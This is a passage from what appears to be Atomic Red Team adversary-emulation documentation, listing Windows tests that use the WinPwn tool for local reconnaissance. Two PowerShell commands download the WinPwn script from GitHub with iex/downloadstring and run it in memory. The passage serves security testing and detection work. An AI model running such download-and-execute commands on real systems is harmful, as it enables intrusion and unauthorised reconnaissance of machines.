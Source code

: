 
**auto_generated_guid:** 5b6f39a2-6ec7-4783-a5fd-2c54a55409ed






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
otherchecks -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #18 - WinPwn - GeneralRecon
Collect general computer informations via GeneralRecon function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7804659b-fdbf-4cf6-b06a-c03e758590e8






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Generalrecon -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #19 - WinPwn - Morerecon
Gathers local system information using the Morerecon function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 3278b2f6-f733-4875-9ef4-bfed34244f0a

